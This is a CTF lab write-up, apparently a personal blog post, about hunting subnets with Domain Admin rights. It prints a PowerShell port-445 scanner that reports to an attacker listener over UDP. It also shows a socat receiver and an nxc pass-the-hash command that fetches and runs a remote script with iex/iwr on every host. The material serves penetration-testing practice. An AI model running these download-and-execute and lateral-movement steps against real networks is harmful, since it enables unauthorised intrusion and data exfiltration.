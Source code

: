 ```yaml
---
title: "Hunting Subnets in a CTF Lab"
date: 2024-06-25T13:00:30-06:00
categories:
  - blog
tags:
  - powershell
  - subnets
  - CTF
  - OSCP
---
```


## Introduction

During a recent lab session, I encountered a challenging but exciting task: hunting down subnets. Armed with Domain Admin (DA) privileges on the main domain, I was set to make the exercise an intriguing venture. Despite the inherent lack of operational security (OpSec) safety in my approach, the process was thoroughly engaging.

### **Toolset**

- **PowerShell Scripting**: Utilized for probing subnet addresses.
- **socat**: Employed to listen for incoming UDP traffic.
- **NXC Command**: Used to execute commands across the network.
- **Web Server**: Used stage our powershell.

### **PowerShell Script**

To efficiently identify open ports across subnet addresses, I crafted a PowerShell script designed to check port 445 (SMB) and report back to my attacker box:

```powershell
$ListenerIP = "10.10.15.252"
$ListenerPort = 5001
$subnet = "172.16.2"
$udpclient = New-Object System.Net.Sockets.UdpClient
100..102 | ForEach-Object { 
    $ip = "$subnet.$_"
    $socket = New-Object System.Net.Sockets.TcpClient
    $async = $socket.BeginConnect($ip, 445, $null, $null)
    if ($async.AsyncWaitHandle.WaitOne(1000, $false)) { 
        $result = "$env:computername - $ip - 445 is open`n"
        $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
    } 
    else {
        $result = "$env:computername - $ip - 445 is closed`n"
        $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
    }
    $socket.Close() 
 }
 $udpclient.Close()
```

### Socat Command

For real-time result collection, socat was configured to listen on UDP port 5001:

```bash
socat UDP-RECV:5001 STDOUT
```

### NXC Command

```bash
nxc smb 172.30.1.0/24 -u DA -H 700168xxxxxxxx39bd67e0 -x 'powershell -c "iex (iwr http://10.10.45.252:8000/tools/psscan.ps1 -usebasic)"'
```

### The Output

```bash
DC01 - 172.16.2.100 - 445 is closed
FS01 - 172.16.2.100 - 445 is closed
DC01 - 172.16.2.101 - 445 is closed
DC01 - 172.16.2.102 - 445 is open
FS0 - 172.16.2.101 - 445 is closed
FS01 - 172.16.2.102 - 445 is closed
MS01 - 172.16.2.100 - 445 is closed
WIN01 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.101 - 445 is closed
WIN01 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.102 - 445 is closed
WIN01 - 172.16.2.102 - 445 is closed
WSADM1 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.102 - 445 is closed
SQL01 - 172.16.2.100 - 445 is closed
SQL01 - 172.16.2.101 - 445 is closed
SQL01 - 172.16.2.102 - 445 is closed
```

### Conclusion
While not necessarily OpSec safe, this exercise was a fun and effective way to explore and understand the network layout and security posture regarding SMB ports within the lab's domain. The use of automated scripts and real-time data exfiltration offered a dynamic approach to network exploration.

We can easily adapt the ports to check, or even nest another For loop to add checking for multiple subnets.  I already had an idea of what i was going to find, and was only interested in the existence of the subnet, so i opted for on port and was content with running this multiple times to get what i needed.
